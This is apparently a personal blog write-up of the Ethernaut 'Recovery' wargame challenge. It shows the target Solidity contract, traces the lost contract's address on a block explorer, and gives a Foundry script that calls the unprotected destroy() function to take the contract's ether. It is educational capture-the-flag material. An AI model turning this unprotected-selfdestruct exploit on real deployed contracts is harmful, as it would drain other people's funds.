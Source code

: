 ```yaml
---
layout: post
title: "[Ethernaut] Recovery"
tags: blockchain ethernaut foundry Explorer
---
```


# Analysis

---

The goal is

1. recover (or remove) the `0.001` ether from the lost contract address.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```

First, we identify the lost contract address.

We search the blockchain explorer using the given instance address: `0x8A53163e6d7423D3F83E871f6E16FF855D3B73FE`.

![image.png]({{site.url}}/images/2025-05-17-Recovery/blockchainExplorer.png)


My challenge is deployed at `0x7585bEb16C9dCFb8E71bF433d0E924f70Ca3efD4`.

From the on-chain trace, we observe that the `0x7585` contract deployed or interacted with the `0x8a53` contract and called the `generateToken()` function.

Subsequently, `0x8a53` interacted with another contract, `0xc413`.

We suspect `0xc413` is the lost contract.

![image.png]({{site.url}}/images/2025-05-17-Recovery/blockchainExplorer2.png)

When inspecting the transaction involving `0xc413`, we can see that `0x7585` sent exactly 0.001 Ether to `0xc413`.

Based on the challenge hint — "creator sent 0.001 ether to obtain more tokens" — we can conclude that `0xc413` is the lost contract we are looking for.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
// forge script script/RecoverySol.sol:RecoverySol --account mingw --sender 0x6f5Ad1E6F1a624E4Ad37f0B7D6f100ab1Db29514 --rpc-url kairos --broadcast
pragma solidity ^0.8.0;

import "../src/Recovery.sol";
import "forge-std/Script.sol";

contract RecoverySol is Script {
    SimpleToken public st_ = SimpleToken(payable(0xC41399Fe813068a3A23DE4215C43584AA3A188A0));

    function run() external {
        vm.startBroadcast();

        console.log("Before balance", address(st_).balance);
        st_.destroy(payable(msg.sender));
        console.log("After balance", address(st_).balance);

        vm.stopBroadcast();
    }
}
```

![image.png]({{site.url}}/images/2025-05-17-Recovery/result.png)